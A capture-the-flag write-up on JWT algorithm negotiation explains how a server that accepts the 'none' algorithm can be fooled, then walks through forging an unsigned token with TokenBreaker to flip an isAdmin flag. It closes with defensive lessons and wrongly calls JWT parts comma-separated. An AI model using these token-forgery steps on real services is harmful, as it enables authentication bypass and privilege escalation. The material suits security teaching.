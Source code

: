 # Algorithm Negotiation

## The Basics

Sometimes a bad implementation or a known vulnerability in an older algorithm can lead to serious trouble, and a good example of this is the SSL's [Poodle](https://www.openssl.org/~bodo/ssl-poodle.pdf) Attack which relies on the negotiation of an old an vulnerable algorithm, in combination with a [Padding Oracle](padding-oracle.nd) Attack.

There are a few good examples on the application of this issue and another one really interesting is related with [JWT's](https://jwt.io/introduction/). 

Although JWT is a really nice thing, there are a lot of different things that can go wrong with the implementation. 

Lets start by getting a really quick overview of JWTs.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

This is a really simple jwt, which consist of 3 parts, comma separated:
* Header - Has information like the algorithm being used
* Payload - The actual data 
* Signature - A signature to verify JWT

Each of these sections is a json structure encoded with base64url

JWT's are being widely used nowadays as a way to validate sessions.


The important parts to understand here about the jwt are the algorithm and the signature. The algorithm specifies the algorithm used to secure the jwt, while the signature makes sure that the jwt wasn't manipulated by an attacker

According to the JWT [specification](https://tools.ietf.org/html/rfc7519) there are two algorithms that are mandatory and need to be supported on every implementation: **none** and **HS256**.

The first one as the name indicates, is not having an algorithm at all, so no signature is needed. The second one is an HMAC with SHA256.


Depending on how a library is implemented, an attacker can manipulate the algorithm, in order to change it to none, or even from something like RS256 which uses a public key, to an HS256

Auth0 has an awesome blog and resources about attacks on JWT and we definitely recommend you to take some time to read their blog posts, specially the post [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## Solving the challenge

This challenge has a vulnerability where the service parsing the jwt accepts the none algorithm, even when the developer specifies a password. So as long as an attacker sends a token with a none algorithm, the server will accept it.

In the challenge, there is a JWT token stored in localstorage

You can start by using [jwt.io](https://jwt.io/) to decode the token, and understand whats there...

In this case, since we are trying to exploit the algorithm negotiation we are going to use a nice tool called [TokenBreaker](https://github.com/Goron/TokenBreaker).

This tool exploit the two issues mentioned before. 

You can download the tool and run it with python3.

```bash
pip install -r requirements.txt
python TheNone.py -t TOKEN_OBTAINED_FROM_LOCALSTORAGE
```

This tool will guide you through the process of changing the token. 

Take a look on what you need to do:

```
python TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJBTk9OW
U1PVVNVU0VSIiwiaXNBZG1pbiI6ZmFsc2UsImlhdCI6MTYyNTI1MzgzN30.8-SY5A-4DqMglOurZ6aL7x1A5yD0DS8_34DJYXzZY-g
 ________         _  __
/_  __/ /  ___   / |/ /__  ___  ___
 / / / _ \/ -_) /    / _ \/ _ \/ -_)
/_/ /_//_/\__/ /_/|_/\___/_//_/\__/

[*] Decoded Header value: {"alg":"HS256","typ":"JWT"}
[*] Decoded Payload value: {"sub":"ANONYMOUSUSER","isAdmin":false,"iat":1625253837}
[*] New header with 'alg' > 'none': {"alg":"None","typ":"JWT"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"sub":"ANONYMOUSUSER","isAdmin":true,"iat":1625253837}
[+] Successfully encoded Token: .
```

The tool asks you if you want to change the header, which we said no, and then asks you to specify your new payload. As you can see from the decoded value, there is a field called isAdmin that is set to false, so we just need to flip it to true. 

And the tool will give you a new token that you need to change in localstorage, refresh the page, and there it is: a new paste in the view, with the flag


## Lesson Learned

* Use a well known and proven JWT library to parse JWT tokens.
* Do not accept JWT tokens with none algorithm
* If you support different algorithms, specify a key for each algorithm